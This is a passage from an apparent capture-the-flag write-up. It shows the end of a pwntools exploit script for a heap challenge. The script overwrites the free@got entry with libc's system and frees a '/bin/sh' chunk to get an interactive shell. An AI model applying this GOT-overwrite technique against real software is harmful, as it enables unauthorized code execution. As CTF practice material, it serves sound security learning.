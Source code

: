 ```python
    def new(content, length):
        r.sendlineafter(b"> ", b"1")
        r.sendlineafter(b"?\n", str(length).encode())
        r.sendlineafter(b"?\n", content)

    new(b"/bin/sh",0x10) # /bin/sh string
    # pad until location of interest
    for i in range(17):
        new(b"A",16)

    new(b'',0x602018) # free@got
    new(b'',0) # write 0 on other half of pointer

    r.sendline(b'3') #edit dream
    r.sendline(b'17') #edit our pointer to free@got
    r.send(p64(libc.sym["__libc_system"]))

    #trigger call to free('/bin/sh')
    r.sendline(b'4') #delete dream
    r.sendline(b'0') #index 0

    r.clean()
    r.interactive()


if __name__ == "__main__":
    main()
```

![image](https://github.com/AndreQuimper/Writeups/assets/96965806/1b1787bc-85ac-453f-ab9e-6c792cf1f455)







